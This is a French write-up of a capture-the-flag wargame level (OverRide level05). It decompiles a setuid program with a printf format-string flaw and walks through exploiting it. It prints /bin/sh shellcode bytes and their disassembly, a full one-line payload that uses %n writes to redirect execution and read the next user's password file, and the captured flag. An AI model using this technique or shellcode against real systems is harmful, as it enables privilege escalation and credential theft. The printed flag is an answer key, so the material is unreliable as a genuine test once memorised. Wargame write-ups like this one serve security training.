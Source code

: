 # OverRide : [level05]

### Observation :
En arrivant sur le level02 on trouve un exécutable nommé level05.\
Quand nous essayons de le lancer cela nous permet d'écrire une chaîne de caractères qui nous sera renvoyé. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
int main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+28h] [ebp-70h] BYREF
  unsigned int i; // [esp+8Ch] [ebp-Ch]

  i = 0;
  fgets(s, 100, stdin);
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )
      s[i] ^= 0x20u;
  }
  printf(s);
  exit(0);
}
```

#### Détails du profil:
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE 
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | La fonction main permet d'afficher une string entrée en stdin dans un `printf` en faisant un `xor` sur le 6eme bit (32) de tous les caractères qui se trouve entre `65 et 90`, en gros cela transforme les majuscules en minuscules. |


#### Conclusions:
Nous savons que nous pouvons injecter du code avec `printf` a la condition de ne pas avoir de majuscule dans notre stdin. \
Nous allons devoir injecter un shellcode car il n'y a pas de fonction dans le programme qui nous permet d'y accéder directement.


----
Résolution:
----
Pour résoudre cet exercice, il ne faut pas placer notre `shellcode` dans notre stdin, car il contient des caracteres entre `65 && 90`, il seront donc transformer... \
Nous allons le placer dans notre environnement, car nous savons que le programme y a accès, le problème avec cette solution, est que la stack se déplace en fonction du nombre de choses dans notre environnement. \
Pour se faire nous allons donc complètement vider la stack, non pas avec `env -i` car cela ne la vide pas complètement et donc se serai très compliqué à debuger dans gdb, mais avec une autre commande `$(unset $(env | cut -d= -f1); <cmd>)`. \
Ensuite, il nous faut trouver l'adresse à laquelle nous souhaitons aller (adresse de notre shellcode dans l'env), ainsi que l'adresse depuis laquelle nous voulons `jump` (retour de `printf` par exemple ou depuis la fonction exit).

> ATTENTION Toujours faire les tests juste avec notre shellcode comme environnement rien d'autre

Dès que nous avons trouvé l'adresse de notre `jump` (le retour de `printf` dans notre cas) = `0xffffdd5c` \
Il nous faut trouver l'adresse de notre `shellcode` dans l'environemennt, pour ça, on a un code `main.c`, puis on le test sans environnement
```sh
echo $(echo $(unset $(env | cut -d= -f1); export f=$(/usr/bin/printf '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80') ;  ./a.out))
```
> Cela nous donne une idée d'où est placer l'environnement, ça ne sera pas forcément exactement ici dans notre cas, car il y a beaucoup de paramètre à prendre en compte...

Apres avoir fait les calculs d'offset, sans environnement nous obtenons: `0xffffdfa5` comme adresse de notre `shellcode`. \
Il ne nous suffit plus qu'à injecter grâce au `%n` de `printf` le bon nombre de caractères à l'adresse de retour de notre `printf` pour pouvoir la remplacer par l'adresse de notre `shellcode` pour qu'il soit ainsi exécuté.
- 0xa5 = 165 en decimal           donc 165 caracteres avant le %n
- 0xdf = 223 donc 223 - 165 = 58  donc 58 caracteres avant le %n
- 0xff = 255 donc 255 - 223 = 32  donc 32 caracteres avant le %n
- 0xff = 255 donc 255 - 255 = 0   donc 0 caracteres avant le %n

> Nous avons ainsi notre valeur de retour de `printf` qui pointe vers notre `shellcode`, nous n'avons plus qu'à lui demander le mot de passe de l'utilisateur level06.

#### Injection:
```asm
# SHELLCODE
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```


#### Commande:
```bash
echo $(echo $(unset $(env | cut -d= -f1); export f=$(/usr/bin/printf '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80'); (/usr/bin/python -c "print('\xff\xff\xdd\x5c'[::-1] + 'A'*4 + '\xff\xff\xdd\x5d'[::-1] + 'A'*4 + '\xff\xff\xdd\x5e'[::-1] + '\xff\xff\xdd\x5f'[::-1] + '%9.x'*8+'%69.c' + '%n' + '%58.c' + '%n' + '%32.c' + '%n' + '%n')"; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))
```

**Flag :** h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
